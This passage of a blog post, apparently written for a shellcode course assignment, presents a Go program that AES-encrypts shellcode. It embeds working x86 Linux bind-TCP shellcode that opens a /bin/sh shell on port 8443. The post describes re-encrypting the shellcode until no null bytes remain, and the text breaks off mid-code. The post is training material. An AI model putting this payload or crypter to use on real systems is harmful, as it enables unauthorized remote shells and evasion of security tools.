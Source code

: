 ```yaml
---
layout: single 
classes: wide
title:  "Custom Shellcode Crypter"
date:   2020-04-05 10:30:06 +0800
categories: jekyll update
---
```


For the last assigment, i choose to use Golang as programming language, this is new programming language for me, so bear with me :).

## Requirements

- Create a custom crypter
- Free to use any existing encryption schema
- Can use any programming language

## Encryption

The encryption schema is using AES ([Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)), also known as Rijndael encryption method, is used by the U.S. federal government as a block encryption standard, is a symmetric key encryption algorithm. 
I've used Golang standard library [aes](https://godoc.org/crypto/aes) implementation. The Golang code is written in go version `go1.14 linux/386`. The program will require one AES key as argument (16 chars). The Bind TCP shellcode from the Assigment #1 will use as sample to test the encryption. The program will encrypt the shellcode with the key and if theencrypted shellcode output contains the `null bytes` the program will keep trying to encrypt until the output of the encrypted shellcode is null free.

{% highlight golang linenos %}
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"fmt"
	"io"
	"os"
	"strings"
)

func main() {
    // bind tcp shellcode assigment #1
	// 0.0.0.0 port 8443 
	origShellcode := []byte{
		0x31, 0xc9, 0xf7, 0xe1, 0x99, 0x6a, 0x66, 0x58, 0x6a,
		0x01, 0x5b, 0x51, 0x6a, 0x01, 0x6a, 0x02, 0x89, 0xe1,
		0xcd, 0x80, 0x97, 0x6a, 0x66, 0x58, 0x6a, 0x02, 0x5b,
		0x52, 0x66, 0x68, 0x20, 0xfb, 0x66, 0x53, 0x89, 0xe1,
		0x6a, 0x10, 0x51, 0x57, 0x89, 0xe1, 0xcd, 0x80, 0x6a,
		0x66, 0x58, 0x6a, 0x04, 0x5b, 0x31, 0xf6, 0x56, 0x57,
		0x89, 0xe1, 0xcd, 0x80, 0x6a, 0x66, 0x58, 0x6a, 0x05,
		0x5b, 0x56, 0x56, 0x57, 0x89, 0xe1, 0xcd, 0x80, 0x89,
		0xc3, 0x6a, 0x02, 0x59, 0xb0, 0x3f, 0xcd, 0x80, 0x49,
		0x79, 0xf9, 0x6a, 0x0b, 0x58, 0x31, 0xc9, 0x51, 0x51,
		0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69,
		0x6e, 0x89, 0xe3, 0xcd, 0x80}

	if len(os.Args[1]) != 16 {
		fmt.Println("ERROR: Key must be 16 chars")
		os.Exit(1)
	}
